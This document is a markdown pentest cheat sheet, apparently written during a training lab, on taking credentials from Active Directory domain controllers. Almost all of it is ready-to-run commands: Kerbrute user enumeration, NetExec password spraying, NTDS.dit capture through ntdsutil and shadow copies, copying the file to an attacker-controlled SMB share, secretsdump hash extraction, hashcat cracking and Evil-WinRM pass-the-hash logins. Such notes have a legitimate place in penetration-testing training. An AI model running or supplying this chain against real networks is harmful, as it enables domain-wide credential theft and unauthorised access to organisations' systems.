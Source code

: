 ```yaml
---
title: Active Directory NTDS Dumping
category: Post-Exploitation
tags: [active-directory, ntds, credential-dumping, impacket, evil-winrm]
tools: ['kerbrute', 'username-anarchy', 'netexec', 'evil-winrm', 'hashcat']
---
```

This file documents techniques for extracting credentials from Active Directory domain controllers, including username enumeration, NTDS.dit capture, and hash cracking. Useful after gaining DC-level access.

# Active Directory CReds and NTDS.dit

## Username dictionary attacks against AD accounts

### Creating a custom list of usernames

Create a list of usernames knowing common naming conventions --> names.txt --> automated list generator

- [Username Anarchy](https://github.com/urbanadventurer/username-anarchy)
- [Kerbrute](https://github.com/ropnop/kerbrute)

```bash
# Anarchy
./username-anarchy -i /home/ltnbob/names.txt 

# Enumerate valid names with Kerbrute
./kerbrute_linux_amd64 userenum --dc 10.129.201.57 --domain example.local names.txt
```

### Launching a brute-force attack with NetExec

Use it in conjunction with the SMB protocol to send logon requests to the target Domain Controller.

```bash
netexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```

## Capturing NTDS.dit

- [Pentest Everythng - NTDS](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/credential-access/credential-dumping/ntds)
- %systemroot%/ntds

### Fast method: Using NetExec to capture NTDS.dit

```bash
netexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! -M ntdsutil
```

### Connecting to a DC with [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)

To make a copy of the NTDS.dit file, we need local admin.

```powershell
evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'

# Checking local group membership
net localgroup

# Checking user account privileges including domain
net user bwilliamson

# Creating shadow copy of C:
vssadmin CREATE SHADOW /For=C:

# Copying NTDS.dit from the VSS
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

#### Transferring NTDS.dit to attack host

```bash
# Mount local share on attack box
sudo smbserver.py -smb2support CompData /home/ltnbob/Documents/

# Back to evil
C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 
```

#### Extracting hashes from NTDS.dit

```bash
impacket-secretsdump -ntds NTDS.dit -system SYSTEM LOCAL
```

## Cracking hashes and gaining credentials

Create a text file with all the hashes - or do one at a time

```bash
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

## Pass the Hash (PtH) considerations

PtH attack takes advantage of the [NTLM authentication protocol](https://docs.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm#:~:text=NTLM uses an encrypted challenge,to the secured NTLM credentials) to authenticate a user using a password hash. Instead of `username`:`clear-text password` as the format for login, we can instead use `username`:`password hash`. 

```bash
evil-winrm -i 10.129.201.57 -u Administrator -H 64f12cddaa88057e06a81b54e73b949b
```



